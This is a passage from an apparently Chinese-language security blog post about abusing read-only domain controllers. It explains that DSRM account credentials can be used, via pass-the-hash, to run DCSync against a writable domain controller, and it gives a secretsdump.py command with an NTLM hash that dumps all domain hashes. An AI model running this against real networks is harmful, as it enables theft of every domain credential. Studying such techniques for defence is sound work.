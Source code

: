 如果当前组策略存在上述的问题，攻击者可以尝试用 DSRM 账户凭据，通过网络向可写域控制器进行身份验证。例如通过哈希传递执行 DCSync 转储所有域哈希，如下所示。控制 DSRM 账户登陆行为的 DsrmAdminLogonBehavior 注册表键值必须设置为 2。

```bash
python3 secretsdump.py DC01/Administrator@dc01.corp.local -hashes :6065837014ee7e5c1081b002153ca05d -just-dc
```

![image-20231124130425837](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231124130425837.png)

# Misconfiguration of RODC in Real-world
